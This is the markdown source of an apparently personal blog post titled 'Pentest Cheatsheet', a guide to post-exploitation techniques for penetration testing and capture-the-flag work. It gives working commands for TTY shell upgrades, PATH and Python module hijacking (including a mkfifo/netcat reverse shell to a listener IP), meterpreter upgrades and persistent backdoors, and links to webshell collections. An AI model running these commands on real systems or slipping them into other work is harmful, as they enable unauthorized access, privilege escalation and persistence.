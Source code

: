 ```yaml
---
title: "Pentest Cheatsheet"
description: "Some techniques that could be useful during a pentest, such as TTY Reverse Shell, bypassing restricted shells, path and library hijacking..."
date: 2019-10-11T14:22:41+02:00
lastmod: 2020-08-06T00:50:52+02:00
author: "Pablo Jesús González Rubio"
cover: ""
coverAlt: ""
toc: true
tags: [ "Cheatsheet" ]
---
```


This post is more like some techniques that could be useful.

For a guide to pentest each port click [here!](/posts/port_cheatsheet).

## TTY Reverse Shell

Having an interactive shell is pretty important as our connection won't hang up when doing Ctrl + C (because it doesn't handle pretty well the SIGINT signal), allows us to autocomplete the commands and the routes, STDERR is displayed, we have command history...

To upgrade it:

```bash
# IN REMOTE COMPUTER
python -c 'import pty; pty.spawn("/bin/bash");'
# Or
python3 -c 'import pty; pty.spawn("/bin/bash");'
# Ctrl + Z
#   This is to put the terminal in foreground
```

```bash
# IN OUR COMPUTER
stty raw -echo # This allows passing through STDIN and STDOUT to the other terminal
fg # We recover the Reverse Shell session
```

```bash
# IN REMOTE COMPUTER
reset
# If it asks for terminal type use: xterm-256terminal
export TERMINAL=bash
export TERM=xterm-256color
```

And that's how you get TTY. 

## Bypassing restricted shells via SSH:

A way to bypass the restricted shell is:

```bash
ssh <user>@<IP> bash
```

Invoking command `bash` via ssh gives us a 'reverse shell'.


## Path Hijacking

Sometimes when a file is executed as part of a routine (in a cron, a systemd, a daemon…) it might not run with the absolute path but with a relative one.

```
# Absolute Path
/bin/bash

# Relative Path
bash
```

Relative Path commands can be altered in such a way that we can modify the PATH variable to make the OS search `bash` command in our directory first (PATH is read in order from left to right). This way you can make that routine execute *your* command instead of the original one.

```
# PATH example
/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/snap/bin
```

This can be done with:

```
export PATH=$(pwd):$PATH
```

***For example***: In a server, in case there is a cron running `fdisk` as `root`, if you create a file called `fdisk` with a reverse shell (could be another thing), it will connect to you and get it with `root` access, as the script is being run by it.

## Python modules Hijacking

This involves modifying or replacing a library that a Python script requires so that it executes our code.

Let's say I have this script that is owned by another user:

```
#!/usr/bin/python

import os

print("Hello my friend!")
```

If somehow this script is running in a cronjob, we can trick it to execute our code as that other user.

**How?**

Taking into account this script is running by `python` and not `python3` we need to search for `/usr/lib/python2.7/os.py`.

We can alter the behaviour of the script by:

- ***Modifying the `os` library***: If we have to write access over the file we can just simply put our code at the end.
- ***Replacing the `os` library***: We may not have write access over the file but over the folder. In that case, we just have to create a `test.py`, put our code at the end, and then replace the library:

```bash
mv test.py os.py
```

The code we can put at the end of the `os` library to execute another code could be:

```py
import os
# HERE THE CODE
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.9 4444 >/tmp/f")
```

Then when the script is ran by the cronjob, we would have a reverse shell!

An example of privilege escalation with this method is [Friendzone HTB machine](/writeups/htb/friendzone).

## How to not loose a shell

**If SSH is available** we can copy our public key (usually in `~/.ssh/id_rsa.pub`) to the server, more specifically to `~/.ssh/authorized_keys`, doing so will let us SSH without the need of inputting a password or needing the private key.

To generate the keys in case we don't have them, we run `ssh-keygen` and it will create them automatically.

## Reverse Shell to Meterpreter

### 1º Way
We can upgrade a rev. shell to meterpreter uploading a msf meterpreter shell and running it:

```bash
msfvenom -p <PAYLOAD> RHOST=<IP> LPORT=<PORT> -f <FORMAT> > <FILE>.<EXTENSION>
```

A good reference for msfvenom use is [this page](https://github.com/frizb/MSF-Venom-Cheatsheet).

Then we can upload it via an upload page the machine could have, curl, wget, netcat, scp, ftp, powershell... It's up to you.

When we've uploaded it, it's time to run it and listen on the port to get the meterpreter:

```bash
# ON MSFCONSOLE
use exploit/multi/handler
set LHOST <LISTENING IP>
set LPORT <LISTENING PORT>
set payload <PAYLOAD USED IN MSFVENOM>
run
```

And that should get us the met. shell. 

### 2º Way

We can upload a another reverse but this time with payload *'cmd'*. When we get the connection with the *cmd* reverse shell:

```bash
#Putting the session on the background
background
#Upgrading cmd to meterpreter
sessions -u <ACTUAL CMD SESSION>
#After that, it should upgrade and get back to let us select between cmd or met.
#So we list the sessions to not fail.
sessions -l
#We select the one with description: meterpreter
sessions -i <MET. SESSION>
```

And there we are again!

## Meterpreter on SSH

When having user and password it's possible to manage ssh and upload files when wget or curl (for example) are restricted via a Metasploit Module or even with `scp` command:

```bash
# Login in msf
msfconsole
# Use the module
use auxiliary/scanner/ssh/ssh_login
# Set parameters
set rhosts <remote ip>
set username <user>
set password <pass>
# 💥
run

# After creating session, upgrade it!
sessions -u <session>
```

## Backdoor

A backdoor is a remote persistant connection, what it means is that we can connect to the machine even when we disconnect or the pc reboots, it'll' always be waiting for a connection or throwing it to us. There are service backdoors, web shells...

- [Pupy](https://miloserdov.org/?p=2874).
- [Tennc - Webshells](https://github.com/tennc/webshell)
- [xl7dev - Webshells](https://github.com/xl7dev/WebShell)
- [Bartblaze - PHP](https://github.com/bartblaze/PHP-backdoors)
- [Mattiasgeniar - PHP](https://github.com/mattiasgeniar/php-exploit-scripts)
- *Meterpreter*: In Windows we can migrate the meterpreter to another process and then make it persistent by installing a service:

```bash
# IN METERPRETER
ps
# WE TAKE THE PID OF EXPLORER.EXE (WINDOWS)
migrate <PID>
run metsvc
```

Or we can run:

```bash
# IN METERPRETER
run persistance -A -L c:\\ -X SECS -p <OPEN PORT> -r <LHOST>
# Checks connection every SECS seconds
```

And now we have a service listening on us.

### Backdoor Resources:

- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Persistence.md)
